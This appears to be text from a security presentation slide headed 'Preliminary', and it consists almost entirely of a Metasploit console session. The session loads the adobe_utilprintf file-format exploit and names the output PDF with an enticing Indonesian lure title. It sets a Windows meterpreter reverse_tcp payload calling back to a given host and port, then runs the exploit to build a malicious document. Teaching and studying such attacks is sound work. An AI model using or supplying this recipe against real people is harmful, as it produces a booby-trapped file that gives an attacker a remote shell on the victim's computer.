

# Preliminary
$ msfconsole
msf> use exploit/windows/fileformat/adobe_utilprintf
msf> set FILENAME kumpulan-link-asoy.pdf
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LHOST 192.168.88.241
msf> set LPORT 13510
msf> exploit

http://xathrya.id/
40